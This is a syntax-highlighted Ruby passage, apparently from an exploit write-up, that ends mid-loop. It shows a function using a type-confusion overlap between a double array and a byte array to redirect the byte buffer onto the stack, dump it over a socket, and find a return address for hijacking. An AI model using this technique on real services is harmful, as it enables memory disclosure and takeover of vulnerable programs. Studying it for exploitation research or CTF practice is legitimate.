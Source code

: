 ```

<span class="lnr"> 1 </span><span class="Comment"># This function is kind of an ugly hack, but it works reliably so I can't really</span>
<span class="lnr"> 2 </span><span class="Comment"># complain.</span>
<span class="lnr"> 3 </span><span class="Comment">#</span>
<span class="lnr"> 4 </span><span class="Comment"># It basically searches a large chunk of memory for a specific return address.</span>
<span class="lnr"> 5 </span><span class="Comment"># When it finds that address, it returns there.</span>
<span class="lnr"> 6 </span><span class="rubyDefine">def</span> <span class="Identifier">find_return_address</span>(s, base_addr)
<span class="lnr"> 7 </span>  address_to_find = [base_addr + <span class="Type">MAIN_RETURN_ADDRESS</span>].pack(<span class="Special">"</span><span class="Constant">I</span><span class="Special">"</span>)
<span class="lnr"> 8 </span>
<span class="lnr"> 9 </span>  <span class="Comment"># Store an array of doubles. This will overlap the next allocation</span>
<span class="lnr">10 </span>  store(s, <span class="Type">VARDATA_TYPE_DOUBLE_ARRAY</span>, [<span class="Constant">0x5e5e5e5e5e5e5e5e</span>] * <span class="Constant">4</span>)
<span class="lnr">11 </span>
<span class="lnr">12 </span>  <span class="Comment"># Store an array of bytes. We'll be able to change the length and locatino</span>
<span class="lnr">13 </span>  <span class="Comment"># of this buffer in order to read arbitrary memory</span>
<span class="lnr">14 </span>  store(s, <span class="Type">VARDATA_TYPE_BYTE_ARRAY</span>, [<span class="Constant">0x41</span>])
<span class="lnr">15 </span>
<span class="lnr">16 </span>  <span class="Comment"># Overwrite the location and size of the byte array. The location will be</span>
<span class="lnr">17 </span>  <span class="Comment"># set to STACK_MIN, and the size will be set to STACK_MAX - STACK_MIN</span>
<span class="lnr">18 </span>  edit(s, <span class="Constant">1</span>, <span class="Constant">3</span>, [<span class="Type">STACK_MIN</span>, (<span class="Type">STACK_MAX</span> - <span class="Type">STACK_MIN</span>)].pack(<span class="Special">"</span><span class="Constant">II</span><span class="Special">"</span>))
<span class="lnr">19 </span>  puts(<span class="Special">"</span><span class="Constant">Reading the stack (0x%08x - 0x%08x)...</span><span class="Special">"</span> % [<span class="Type">STACK_MIN</span>, <span class="Type">STACK_MAX</span>])
<span class="lnr">20 </span>
<span class="lnr">21 </span>  <span class="Comment"># We have to re-implement "get" here, so we can handle a large buffer and</span>
<span class="lnr">22 </span>  <span class="Comment"># so we can quit when we find what we need</span>
<span class="lnr">23 </span>  out = [<span class="Type">MESSAGE_GET</span>, <span class="Constant">0</span>].pack(<span class="Special">"</span><span class="Constant">II</span><span class="Special">"</span>)
<span class="lnr">24 </span>  s.write(out)
<span class="lnr">25 </span>  get_int(s) <span class="Comment"># type (don't care)</span>
<span class="lnr">26 </span>  len = get_int(s)
<span class="lnr">27 </span>  result = <span class="Special">""</span>
<span class="lnr">28 </span>
<span class="lnr">29 </span>  <span class="Comment"># Loop and read till we either reach the end, of we find the value we need</span>
<span class="lnr">30 </span>  <span class="Statement">while</span>(result.length < len)
<span class="lnr">31 </span>    result = result + s.recv(<span class="Type">STACK_MAX</span> - <span class="Type">STACK_MIN</span> + <span class="Constant">1</span>)
<span class="lnr">32 </span>
<span class="lnr">33 </span>    <span class="Comment"># As soon as we find the location, end</span>
<span class="lnr">34 </span>    <span class="Statement">if</span>(loc = result.index(address_to_find))
<span class="lnr">35 </span>      <span class="Statement">return</span> <span class="Type">STACK_MIN</span> + loc
<span class="lnr">36 </span>    <span class="Statement">end</span>
```